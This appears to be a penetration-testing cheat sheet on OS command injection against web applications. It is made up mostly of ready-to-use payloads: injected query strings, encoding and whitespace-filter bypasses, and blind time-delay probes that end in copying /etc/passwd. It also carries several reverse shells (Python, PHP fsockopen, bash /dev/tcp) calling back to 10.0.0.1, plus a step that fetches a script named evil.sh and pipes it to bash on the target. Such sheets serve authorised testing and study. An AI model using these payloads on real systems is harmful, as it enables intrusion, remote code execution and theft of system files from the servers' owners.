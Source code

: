 ```yaml
---
title: OS Command Injection
description: 
tags:
    - Remote Code Execution
    - Reverse Shell
    - Web
refs:
date: 2023-11-11
draft: false
---
```


## Basic Payloads

If the payload includes whitespaces (**' '**), we need to change it to **'+'** or **URL encoding ('%20')**.

```html
/api/cmd/whoami
/command/whoami

/?cmd=whoami
/?cmd=;id

/?cmd=ls
/?cmd=ls ..
/?cmd=ls ../
/?cmd=ls /home

/?cmd=`ping -c 1 10.0.0.1`

/?file=example.txt; echo $(ls -al /)
/?file=example.txt; echo $(ls -al /) |

<!-- PHP query string -->
/?q=;system($_GET[cmd])&cmd=whoami
/?q=${system($_GET[cmd])}&cmd=whoami

/?productId=1&stockId=1|whoami
/?productId=1&stockId=1|id

<!-- Windows -->
/?file=example.txt | systeminfo #
/?file=example.txt ; systeminfo #
/?file=example.txt') ; systeminfo #
```

### URL Encoding

We may be able to bypass specific character filter by encoding them.

```bash
# %0A: newline
/?cmd=ls%0Aid
# %250A: newline (double encoding)
/?cmd=ls%250Aid

# %26: &
/?cmd=ls%26id
# %2526: & (double encoding)
/?cmd=ls%2526id
# &&
/?cmd=ls%26%26id
/?cmd=ls%2526%2526id

# %3B: ;
/?cmd=ls%3Bid
# %253B: ; (double encoding)
/?cmd=ls%253Bid
```

<br />

## Bypass Whitespace Filter

Reference: [https://www.ctfnote.com/web/os-command-injection/whitespace-bypass](https://www.ctfnote.com/web/os-command-injection/whitespace-bypass)

If the website filters whitespaces and we cannot inject OS command including spaces e.g. **'sleep 5'**, we can insert **Internal Field Separator (IFS)** as whitespace.

```bash
$IFS$9
```

### Payload Examples:

```html
<!-- ping -c 5 10.0.0.1 -->
/?cmd=ping$IFS$9-c$IFS$9510.0.0.1
```

<br />

## Ping

Try pinging to our local machine for checking if our command injection achieves.  
To confirm the result, start tcpdump in our local machine.

```bash
# -i: Interface e.g. eth0, tun0
sudo tcpdump -i eth0 icmp
```

Then execute ping command in POST request.

Below are examples for POST data.

```bash
file=example.jpg&filetype=png;ping+-c+1+10.0.0.1
```

<br />

## Reverse Shell

```sh
file=example.jpg&filetype=png;export RHOST="10.0.0.1";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

### PHP Reverse Shell

Reference: [https://book.hacktricks.xyz/pentesting-web/command-injection#examples](https://book.hacktricks.xyz/pentesting-web/command-injection#examples)

```bash
# 1. Download PHP payload
wget https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php -O shell.php

# 2. Edit `ip` and `port` values.
vim shell.php

# 3. Send payload & get shell (run `nc -lvnp <port>` in another terminal before doing this)
/?cmd=ls%0Awget+http://10.0.0.1/shell.php+-O+/tmp/shell.php%0Aphp+/tmp/shell.php
```

<br />

## Blind Command Injection (Time Delay)

Use **"ping"** command to check if the website will be loaded with time delay.

```txt
name=michael&email=michael@example.com||ping+-c+10+127.0.0.1||&message=hello
email=test@test.com;ping+-c+15+127.0.0.1+#&message=hello
```

If we find the command can be executed, we can execute the other commands as below.

```txt
email=test@test.com;cp+/etc/passwd+./+#&message=hello
```

<br />

## JSON Injection

```json
{ "username": "\"; pwd \"" }
{"email": "\";ping -c 1 10.0.0.1\""}

{"name":"<script>alert(1)</script>", "email":"victim@vulnerable.com"}

{"name": "admin", "content": "{{template: ./admin.php}}"}
```

<br />

## PHP Injection

```bash
id=$(php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");')

# URL encode
id=1$(php%20-r%20'$sock=fsockopen(%2210.0.0.1%22,4444);exec(%22/bin/sh%20-i%20%3C&3%20%3E&3%202%3E&3%22);')
id=1$(php%20-r%20%27%24sock%3Dfsockopen%28%2210.0.0.1%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27)
id=1`php%20-r%20%27%24sock%3Dfsockopen%28%2210.0.0.1%22%2C4444%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`
```

<br />

## Indirect Payloads with Shell Script

If we cannot inject command directly as above, try injecting from files.

Create a shell script. The filename here is **`evil.sh`**`.

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'
```

Host this file by starting web server in the directory where the **`evil.sh`** exists.

```bash
sudo python3 -m http.server 80
```

In target website, inject command to let target server download the shell script and execute it. Before that, we need to start listerner by **`nc -lvnp 4444`** in another terminal in local machine. Here is the example.

```bash
/?cmd=ls;wget+http://10.0.0.1/evil.sh|bash
```

We might get a shell.